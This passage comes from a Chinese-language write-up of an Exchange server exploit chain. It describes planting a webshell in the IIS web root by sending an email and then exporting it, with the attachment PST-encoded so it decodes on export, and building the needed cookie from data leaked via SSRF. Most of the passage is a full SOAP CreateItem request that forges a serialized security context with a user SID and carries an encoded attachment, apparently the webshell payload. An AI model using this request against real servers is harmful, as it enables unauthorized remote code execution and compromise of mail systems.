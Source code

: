 [![](https://p5.ssl.qhimg.com/t0155d2a84a204defef.png)](https://p5.ssl.qhimg.com/t0155d2a84a204defef.png)

实现写入文件的思路大致为调用邮件接口发送邮件，在调用导出邮件接口，向指定系统路径(iis根目录)写入webshell。由于邮件内容为PST格式，IIS解析不了，需要二次解码，即发送之前先编码一次，导出的时候在解码成正常格式即可，<br>
编码方式官方文档链接如下([https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-pst/5faf4800-645d-49d1-9457-2ac40eb467bd)。](https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-pst/5faf4800-645d-49d1-9457-2ac40eb467bd)%E3%80%82)

[![](https://p3.ssl.qhimg.com/t018701039329158e33.png)](https://p3.ssl.qhimg.com/t018701039329158e33.png)

在写入文件的时候还需要构造cookie才能进行调用访问，如果没有cookie会返回401，所幸构造的所需要的内容可以通过SSRF获取，然后在分析调试代码在手工构造，发送邮件然后导出邮件。

```
&lt;soap:Envelope
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages"
  xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types"
  xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"&gt;
  &lt;soap:Header&gt;
    &lt;t:RequestServerVersion Version="Exchange2016" /&gt;
    &lt;t:SerializedSecurityContext&gt;
      &lt;t:UserSid&gt;
      S-1-5-21-1692751536-334164737-1685896678-16656
      &lt;/t:UserSid&gt;
      &lt;t:GroupSids&gt;
        &lt;t:GroupIdentifier&gt;
          &lt;t:SecurityIdentifier&gt;
          S-1-5-21
          &lt;/t:SecurityIdentifier&gt;
        &lt;/t:GroupIdentifier&gt;
      &lt;/t:GroupSids&gt;
    &lt;/t:SerializedSecurityContext&gt;
  &lt;/soap:Header&gt;
  &lt;soap:Body&gt;
    &lt;m:CreateItem MessageDisposition="SaveOnly"&gt;
      &lt;m:Items&gt;
        &lt;t:Message&gt;
          &lt;t:Subject&gt;tsjsupqgmdciximd&lt;/t:Subject&gt;
          &lt;t:Body BodyType="HTML"&gt;hello by xyy&lt;/t:Body&gt;
          &lt;t:Attachments&gt;
            &lt;t:FileAttachment&gt;
              &lt;t:Name&gt;f.txt&lt;/t:Name&gt;
              &lt;t:IsInline&gt;false&lt;/t:IsInline&gt;
              &lt;t:IsContactPhoto&gt;false&lt;/t:IsContactPhoto&gt;
              &lt;t:Content&gt;
              ldZUhrdpFDnNqQbf96nf2v+CYWdUhrdpFII5hvcGqRT/gtbahqXahoLZnl33BlQUt9MGObmp39opINOpDYzJ6Z45OTk52qWpzYy+2lz32tYUfoLaddpUKVTTDdqCD2uC9wbWqV3agskxvtrWadMG1trzRAYNMZ45OTk5IZ6V+9ZUhrdpFNk=
              &lt;/t:Content&gt;
            &lt;/t:FileAttachment&gt;
          &lt;/t:Attachments&gt;
          &lt;t:ToRecipients&gt;
            &lt;t:Mailbox&gt;
              &lt;t:EmailAddress&gt;
             administartor@tamail.com
              &lt;/t:EmailAddress&gt;
            &lt;/t:Mailbox&gt;
          &lt;/t:ToRecipients&gt;
        &lt;/t:Message&gt;
      &lt;/m:Items&gt;
    &lt;/m:CreateItem&gt;
  &lt;/soap:Body&gt;
&lt;/soap:Envelope&gt;
```
